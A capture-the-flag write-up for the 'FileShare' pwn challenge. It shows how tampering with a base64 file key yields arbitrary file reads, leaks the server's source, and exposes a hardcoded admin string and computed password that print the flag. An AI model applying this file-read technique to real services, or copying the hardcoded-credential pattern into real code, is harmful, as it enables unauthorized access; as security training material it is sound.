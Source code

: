 # FileShare
Pwn - 75 points

## Challenge 
> I created this service where you can leave files for other people to view! I have been getting good reviews..
what do you think about it?

> nc pwn1.chal.gryphonctf.com 17342

> Creator - @paux

## Solution

After creating a file, we are given a key in base64. It decodes to this form

    ['files/ABC', 'filename']

If we change the filename, the `VIEW FILE` still works as long as the directory is correct. This means only the directory matters!

Now I created a script to automatically encode and send the payload for us.
The payload is controlled by the parameters for `attempt()`

> [getFile.py](getFile.py)


---

If we key in a file not available, we get this 

##### Using [ `attempt("'files/ZZZ'", "'flag'")` ]

    FILE CONTENTS:
    Received: Traceback (most recent call last):
        File "/home/fileshare/FS.py", line 33, in gets
            f=open(kul+l[0],"r")
    FileNotFoundError: [Errno 2] No such file or directory: '/home/fileshare/files/ZZZ'
    Wrong key, no such file
    GOODBYE!

One thing we can see is that the source file is at `"/home/fileshare/FS.py"`
Let's take a look at the source!

##### Using [ `attempt("'FS.py'", "'flag'")` ]

We can see the source code!
I have saved a copy [FS.py](FS.py)

This portion is interesting

    def start(c,a,user):
        kkk="QQTLBFVLZFCJHABTKQWYYTBLTLNENP"
        try:
            < lots of stuff >

            if r=="a":
                c.sendall("YOU HAVE CHOSEN TO MAKE FILE!\nPLEASE INPUT NAME!(3-5 CHARAS ONLY) => ".encode())                
                < lots of stuff >
            elif r=="b":
                c.sendall("YOU HAVE CHOSEN TO VIEW FILE\nPLEASE INPUT KEY! => ".encode())
                < lots of stuff >

            elif r==kkk:
                f=open("/home/fileshare/flag/thisisalongnameforadirectoryforareasonflag.txt","r")
                k=f.readline()
                z="HELLO ADMINISTRATOR!\n~~~WELCOME TO THE ADMIN PORTAL~~~\n           a)  LIST ALL FILES\n           b)  PRINT FLAG\nYOUR INPUT => "
                c.sendall(z.encode())
                c.settimeout(60*2)
                h=c.recv(3).decode().strip()
                if h=="a":
                    k=os.listdir("/home/fileshare/files/")
                    for i in k:
                        i="- "+i+"\n"
                        c.sendall(i.encode())
                    c.sendall("GOODBYE\n".encode())
                elif h=="b":
                    c.sendall("PASSWORD PLS ! =>".encode())
                    c.settimeout(60*2)
                    z=c.recv(10).decode().strip()
                    if int(z)==check("REALADMIN"):
                        c.sendall("HERES THE FLAG!\n".encode())
                        c.sendall(k.encode())
                    else:
                        c.sendall("YOU ARE NOT REAL ADMIN! BYE\n".encode())
                else:
                    c.sendall("INVALID!\nGOODBYE!\n".encode());
                c.close()

As we can see, we must enter `QQTLBFVLZFCJHABTKQWYYTBLTLNENP` for the first input, and then `b` to print the flag.

Next, we must enter an integer which is compared to `check("REALADMIN")`. 

    >>> def check(stri):
    ...     k=0
    ...     for i in stri:
    ...         k=k+ord(i)
    ...     return k
    ... 
    >>> check("REALADMIN")
    653

The integer is `653`. Let's try it now!

    $ nc pwn1.chal.gryphonctf.com 17342
    
    ...

    WELCOME TO THE GREATEST FILE SHARING SERVICE IN ALL OF ZE WORLD!
        a)  CREATE FILE
        b)  VIEW FILE
    YOUR INPUT => QQTLBFVLZFCJHABTKQWYYTBLTLNENP

    HELLO ADMINISTRATOR!
    ~~~WELCOME TO THE ADMIN PORTAL~~~
        a)  LIST ALL FILES
        b)  PRINT FLAG
    YOUR INPUT => b

    PASSWORD PLS ! =>653

    HERES THE FLAG!
    GCTF{in53cur3_fi13_tr4n5f3r}


## Flag
`GCTF{in53cur3_fi13_tr4n5f3r}`